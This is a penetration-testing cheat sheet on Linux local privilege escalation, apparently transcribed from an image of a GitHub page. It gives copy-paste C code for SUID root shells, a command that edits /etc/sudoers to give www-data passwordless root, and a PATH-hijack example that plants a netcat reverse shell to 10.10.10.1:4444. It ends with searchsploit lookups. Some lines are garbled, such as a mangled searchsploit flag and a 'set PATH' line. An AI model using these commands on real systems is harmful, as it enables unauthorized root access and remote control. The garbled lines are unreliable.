 -   Local Privilege Escalation Exploit in Linux

    -   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a
        superuser, you can update the UID / GID and shell as required.  
          
        below are some quick copy and paste examples for various
        shells:  
          
        SUID C Shell for /bin/bash  
          
        int main(void){  
        setresuid(0, 0, 0);  
        system("/bin/bash");  
        }  
          
        SUID C Shell for /bin/sh  
          
        int main(void){  
        setresuid(0, 0, 0);  
        system("/bin/sh");  
        }  
          
        Building the SUID Shell binary  
        gcc -o suid suid.c  
        For 32 bit:  
        gcc -m32 -o suid suid.c

    -   Create and compile an SUID from a limited shell (no file
        transfer)  
        echo "int main(void){\\nsetgid(0);
        setuid(0);\\nsystem(\\"/bin/sh\\");\\n}" >privsc.c  
        gcc privsc.c -o privsc

-   Add users to Root SUDO group with no password requirement  
    echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:
    ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' >
    /tmp/update
    
-   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable
    to execute your command instead.  In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on 
    port 4444.
    
```
set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
chmod +x ssh
```

-   SearchSploit  
     searchsploit –uncsearchsploit apache 2.2  
     searchsploit "Linux Kernel"  
     searchsploit linux 2.6 | grep -i ubuntu | grep local  
     searchsploit slmail
